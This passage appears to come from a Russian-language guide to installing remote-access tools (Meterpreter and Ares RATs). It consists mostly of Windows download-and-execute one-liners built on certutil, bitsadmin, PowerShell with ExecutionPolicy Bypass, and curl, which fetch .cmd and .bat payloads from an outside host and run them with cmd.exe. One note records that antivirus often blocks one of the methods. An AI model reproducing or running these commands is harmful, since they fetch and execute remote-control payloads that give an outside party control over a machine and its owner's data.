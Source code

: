 ```text
certutil.exe -urlcache -f http://distrib.netip6.ru:80/NIT/RAT/nit-RAT-meterpreter-run-00.cmd C:\Users\Администратор\nit-RAT-meterpreter-run-00.cmd
```

(часто не запускается, блокируется антивирусом), или

```text
powershell.exe -NoLogo -NoProfile -WindowStyle Normal -ExecutionPolicy Bypass -Command (New-Object System.Net.WebClient).DownloadFile('http://distrib.netip6.ru:80/NIT/RAT/nit-RAT-meterpreter-run-00.cmd', 'C:\Users\Администратор\nit-RAT-meterpreter-run-00.cmd')
```

(требует установленного powershell 2.0+, .Net Framework 3.5+), или

```text
powershell.exe -NoLogo -NoProfile -WindowStyle Normal -ExecutionPolicy Bypass -Command Invoke-WebRequest -Uri 'http://distrib.netip6.ru:80/NIT/RAT/nit-RAT-meterpreter-run-00.cmd' -OutFile 'C:\Users\Администратор\nit-RAT-meterpreter-run-00.cmd'
```

(требует установленного powershell 3.0+, Net Framework 4+), или

```text
c:\Util\curl.exe http://distrib.netip6.ru:80/NIT/RAT/nit-RAT-meterpreter-run-00.cmd -o C:\Users\Администратор\nit-RAT-meterpreter-run-00.cmd
```

(работает всегда, но требует предварительной настройки)

Команда 2:

```text
cmd.exe /c C:\Users\Администратор\nit-RAT-meterpreter-run-00.cmd
```

#### Программа ares

Способ 1:

Загрузите файл по ссылке и запустите его в папке «Загрузки»:

<http://distrib.netip6.ru:80/NIT/RAT/download.php?file=nit-ares-remote-RAT.bat>

Способ 2:

Последовательно выполните следующие команды на удалённом компьютере/сервере:

Команда 1:

```text
bitsadmin.exe /Transfer RemoteEnable00 /DOWNLOAD /PRIORITY FOREGROUND http://distrib.netip6.ru:80/NIT/RAT/nit-RAT-ares-run-00.cmd C:\Users\Администратор\nit-RAT-ares-run-00.cmd
```

(работает только в командных файлах или при виртуальном доступе), или

```text
certutil.exe -urlcache -f http://distrib.netip6.ru:80/NIT/RAT/nit-RAT-ares-run-00.cmd C:\Users\Администратор\nit-RAT-ares-run-00.cmd
```
